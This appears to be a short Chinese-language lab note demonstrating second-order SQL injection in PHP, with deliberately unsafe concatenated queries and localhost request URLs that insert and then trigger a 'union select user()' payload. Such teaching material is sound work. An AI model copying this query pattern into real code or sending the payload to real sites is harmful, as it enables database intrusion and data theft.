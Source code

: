 ```php
}

$sql= "select * from news where id='$id'"; // 查询结果
echo $sql;
echo "<br>";
if (!$result = $conn->query($sql)) {
    die(mysqli_error($conn));
}

while ($row = $result->fetch_assoc()) {
    echo "select * from news where title='$row[title]'"; //把'取出来再查询 这样就会存在注入。
    if(!$result=$conn->query("select * from news where title='$row[title]'")){
        die(mysqli_error($conn));

    }
    $row2 = $result->fetch_assoc();
    var_dump($row2);
}
```



先插入恶意数据：

```http
http://127.0.0.1:8081/www.phpsec.com/sql/sql12.php?c=c&title=1%27%20union%20select%201,2,user()--+
```

再取出查询

```http
http://127.0.0.1:8081/www.phpsec.com/sql/sql12.php?id=18
```

<img src=".\图片\Snipaste_2023-04-08_19-43-45.png" alt="Snipaste_2023-04-08_19-43-45" style="zoom:80%;" />
